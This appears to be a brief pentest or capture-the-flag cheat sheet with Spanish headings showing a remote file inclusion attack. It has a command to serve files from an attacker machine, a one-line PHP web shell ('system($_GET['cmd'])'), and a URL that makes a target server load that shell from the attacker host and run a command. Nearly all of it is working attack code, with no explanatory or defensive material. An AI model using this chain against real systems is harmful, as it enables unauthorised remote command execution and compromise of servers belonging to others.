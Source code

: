 Servidor Web

```python
IP = 10.10.10.14

python3 -m http.server 8080
```

shell.php

```python
<?php system($_GET['cmd']); ?>
```

RFI

```python
http://10.10.10.26/index.php?language=http://10.10.10.14:8080/shell.php&cmd=id
```
